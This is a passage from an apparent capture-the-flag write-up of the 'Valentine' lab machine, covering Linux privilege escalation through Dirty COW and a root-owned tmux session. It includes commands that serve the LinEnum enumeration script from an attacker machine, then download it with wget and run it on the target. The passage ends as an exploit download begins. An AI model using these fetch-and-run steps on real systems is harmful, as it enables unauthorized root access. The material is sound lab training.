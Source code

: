 We need to escalate privileges.

# Privilege Escalation

Grab the [LinEnum](https://github.com/rebootuser/LinEnum) script if you don’t already have it. In the attack machine, start up a server in the directory that the script resides in.

```
python -m SimpleHTTPServer 5555
```

In the target machine download the script.

```
wget [http://10.10.14.6:5555/LinEnum.sh](http://10.10.14.6:5555/LinEnum.sh)
```

Run the script.

```
./LinEnum.sh
```

We get back many results of which two are interesting.

First, it’s running an old version of Ubuntu that is probably vulnerable to [Dirty COW](https://dirtycow.ninja/). Dirty COW is a privilege escalation vulnerability which exploits a race condition in the way the Linux kernel’s memory subsystem handles the copy-on-write (COW) breakage of private read-only memory mappings.

![](../img/Valentine Writeup wo Metasploit/1_BrazHc5GyWfr26QOvRJlaA.png)

Second, there’s an active tmux session that is owned by root.

![](../img/Valentine Writeup wo Metasploit/1_XfFIN0eDDp1hhhxhygwlrQ.png)

According to the [tmux man page](http://man7.org/linux/man-pages/man1/tmux.1.html):

> tmux is a terminal multiplexer: it enables a number of terminals to be
> created, accessed, and controlled from a single screen.

It’s essentially a shell that is owned by root! So if we can enter this active tmux session, any command we run there is executed with root privileges. This one I didn’t figure out on my own, I had to use[ ippsec’s help](https://www.youtube.com/watch?v=XYXNvemgJUo).

Alright, so we have two ways of escalating privileges.

**Privilege Escalation #1: Dirty COW Vulnerability**

To confirm that the target machine is vulnerable to Dirty COW, download the [Linux Exploit Suggester](https://github.com/jondonas/linux-exploit-suggester-2) script. In the attack machine, start up a server in the directory where the script resides.

```
python -m SimpleHTTPServer 5555
```

Download the exploit on your target machine.
